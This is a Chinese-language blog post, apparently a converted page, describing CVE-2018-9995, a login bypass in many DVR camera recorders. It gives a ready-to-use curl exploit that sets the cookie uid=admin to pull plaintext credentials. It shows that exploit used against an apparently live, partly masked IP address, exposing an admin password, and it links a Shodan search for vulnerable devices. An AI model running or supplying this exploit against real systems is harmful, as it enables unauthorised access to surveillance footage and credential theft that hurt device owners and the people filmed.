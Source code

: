 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [delikely.github.io](https://delikely.github.io/2018/05/04/TBK-DVR-Login-Bypass%EF%BC%88CVE-2018-9995%EF%BC%89/)

> 简介多款 DVR（硬盘录像机） 设备可提取明文凭证。

[](#简介 "简介")简介
--------------

多款 DVR（硬盘录像机） 设备可提取明文凭证。

如果 cookie 中包含 uid=admin , 那么响应的数据包中会包含明文的密码。

受影响的厂商 / 标识

> Novo  
> CeNova  
> QSee  
> Pulnix  
> XVR 5 in 1 (title: “XVR Login”)  
> Securus, - Security. Never Compromise !! -  
> Night OWL  
> DVR Login  
> HVR Login  
> MDVR Login

[](#Exploit "Exploit")Exploit
-----------------------------

```
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

[](#Example "Example")Example
-----------------------------

```
# curl "http://217.131.xx.x:84/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
{"result":0,"list":[{"uid":"admin","pwd":"ozer","role":2,"enmac":0,"mac":"00:00:00:00:00:00","playback":4294967295,"view":4294967295,"rview":4294967295,"ptz":4294967295,"backup":4294967295,"opt":4294967295}]}
```

我们已经获取了密码，现在可以查看监控视频了。

![](https://delikely.github.io/2018/05/04/TBK-DVR-Login-Bypass%EF%BC%88CVE-2018-9995%EF%BC%89/1525518856382.png)

[](#相关链接 "相关链接")相关链接
--------------------

*   [shodan 搜索结果](https://www.shodan.io/search?query=+html%3A%22login.rsp%22)
*   [CVE-2018-9995_dvr_credentials (github)](https://github.com/ezelf/CVE-2018-9995_dvr_credentials)